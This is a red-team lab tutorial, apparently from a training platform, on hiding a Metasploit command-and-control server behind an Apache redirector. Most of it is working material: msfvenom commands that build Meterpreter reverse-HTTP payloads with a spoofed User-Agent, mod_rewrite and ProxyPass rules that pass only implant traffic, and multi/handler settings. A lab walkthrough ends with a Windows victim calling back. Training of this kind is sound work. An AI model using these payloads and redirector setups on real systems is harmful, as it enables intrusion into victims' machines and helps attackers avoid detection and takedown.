

Advanced C2 Setups
There's Always Room for Improvement
As you may have guessed, Metasploit itself is not that great of a C2 server for advanced adversary operations. It's not as flexible as one would desire; you cannot configure agents to beacon out every X seconds with Y jitter. A Next-Generation Firewall could quickly pick up on this C2 traffic, seeing it's a constant stream of traffic. In addition, anyone could connect to an HTTP/HTTPS listener and find out relatively quickly what is going on.
Command and Control Redirectors
What is a Redirector?
Before we dive into configuring a Redirector, first, what is it? A Redirector is exactly as it sounds. It's a server that "Redirects" HTTP/HTTPS requests based on information within the HTTP Request body. In production systems, you may see a "Redirector" in the form of a Load Balancer. This server often runs Apache 2 or NGINX. For this lab, we will be leveraging Apache and some of its modules to build a Redirector.
Jumping back into Metasploit, we can set up some basic configurations on Metasploit to allow for more advanced configurations, in this task; we will be setting up a Redirector. Usually, this configuration is set up on multiple hosts; the purpose of this is to hide the true Command and Control server. The diagram below illustrates how communications between a victim and a C2 server happen.
Usually, when you have a C2 callback, you may set the callback host to a Domain, let's say admin.tryhackme.com. It's very common for your C2 Server to get reported, when a user files a complaint. Usually, the server gets taken down fairly quickly. It can sometimes be as little as 3 hours and as much as 24. Setting up a redirector ensures that any information you may have collected during the engagement is safe and sound.
But how does this stop the C2 Server from being taken down? Surely if someone fingerprinted Cobalt Strike on your C2 Server, someone would file a complaint, and it would get taken down. This is true, so you should set up a Firewall to only allow communication to and from your redirector(s) to mitigate any potential risks.
How is a Redirector Setup?
Before we dive into configuring a redirector, we must first understand how one is set up; we will be aligning this to the tools we have available, which are Metasploit and Apache2. In Apache, we will be leveraging a module called "mod_rewrite" (or the Rewrite module). This module allows us to write rules to forward requests to internal or external hosts on a server based on specific HTTP headers or content. We will need to use several modules to configure our Redirector. The following modules must be enabled:
• rewrite
• proxy
• proxy_http
• headers
Note: If you are using the Attack Box, there is already a service running on port 80 - you must change the default port that Apache listens on in /etc/apache2/ports.conf. You must do this before starting the Apache 2 service, or it will fail to start.
You can install apache 2 and enable it with the following commands:
Commands:
apt install apache2
a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads. It's in every HTTP request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark.
Generating a Payload with Modified Headers:
msfvenom -p windows/meterpreter/reverse_http LHOST=<Attacker_IP> LPORT=<Port> HttpUserAgent=NotMeterpreter -f exe -o shell.exe
After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the HTTP filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.
Now that we have a field we can control in the HTTP Request, let's create an Apache2 mod_rewrite rule that filters on the user agent "NotMeterpreter" and forward it to our Metasploit C2 Server.
Modifying the Apache Config File
This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at /etc/apache2/sites-available/000-default.conf.
Now that we have a general idea of the Apache2 Config file is structured, we must add a few lines to the config file to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy. This sounds fairly complex, but it's quite simple.
To enable the Rewrite Engine, we must add RewriteEngine On onto a new line in the VirtualHost section.
Now we will be using a Rewrite Condition targeting the HTTP User-Agent. For a complete list of HTTP Request Targets, see the mod_rewrite documentation on Apache.org. Because we only want to match the User-Agent "NotMeterpreter", we need to use some basic Regular Expressions to capture this; adding a ^ signals the beginning of a string and a $ at the end of the series, giving us with "^NotMeterpreter$". This Regex will only capture the NotMeterpreter User-Agent. We can add this line RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$" to our config to (as previously stated) only allow HTTP Requests with the NotMeterpreter user agent to access Metasploit.
Lastly, we must forward the request through Apache2, through our proxy, to Metasploit. To do this, we must use the ProxyPass feature of Apache's mod_proxy module. To do this, we just need to specify the base URI that the request will be forwarded to (in our case, we just need "/"), and the target we want to forward the request to. This will vary from setup to set up, but this IP Address will be your C2 server. In the lab scenario, it will be localhost and port that Metasploit is listening on. This will give us a full config file that looks like so:
Changes:
RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
ProxyPass "/" "http://localhost:8080/"
Setting Up Exploit/Multi/Handler
To set up Meterpreter properly, we need to make a few modifications; We must set our LHOST argument to the incoming interface that we are expecting connections from, in our lab; this will be 127.0.0.1. In the real world, this will be your public interface that your Redirector will be connecting to (aka your Public IP Address), and the LPORT will be whatever you like. For the lab, we will be using TCP/8080; this can be whatever you like in production. As always, the best practice is to run services over their standard protocols, so HTTP should run on port 80, and HTTPS should run on port 443. These options will also need to be duplicated for ReverseListenerBindAddress and ReverseListenerBindPort.
Next, we need to set up OverrideLHOST - This value will be your redirector's IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that the HTTP or HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server. Now that you understand what must be configured, let's dive into it:
fter this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to use multiple hosts and DNS records instead of IP Addresses.
Practical Example:
Kali Machine: Metasploit C2 Server [11.11.11.100]
Parrot Machine: Redirector [11.11.11.103]
Windows 7 Machine: Victim [11.11.11.120]
Payload:
Payload is generated targeted at Redirector machine.
msfvenom -p windows/meterpreter/reverse_http LHOST=11.11.11.103 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o redirector.exe
Parrot Machine:
Here, The Apache Proxy would run.
a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
Then, Edit /etc/apache2/sites-available/000-default.conf & add the following inside VirtualHost
RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
ProxyPass "/" "http://11.11.11.100:8080/"
Then, restart apache2 server again to reload the configurations.
systemctl restart apache2
Kali Machine:
Start Msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 11.11.11.100
set LPORT 8080
set ReverseListenerBindAddress 11.11.11.100
set ReverseListenerBindPort 8080
set OverrideLHOST 11.11.11.103
set OverrideLPORT 80
set HTTPUserAgent NotMeterpreter
run
Windows Machine:
When we open the redirector website on Port 80, A normal website loads. [For Blue Teamers]
This happens because the HTTPUserAgent needs to be “NotMeterpreter” for our proxy to send it to our Metasploit C2 Sever
Now, if we run the redirector.exe payload. (It was configured in msfvenom to have “NotMeterpreter” as HTTPUserAgent)
We will get a connection into the C2 server [Parrot Machine is the Redirector in between]
Kali Machine:

As we can see we have access to the windows machine throught the Parrot Machine as redirector.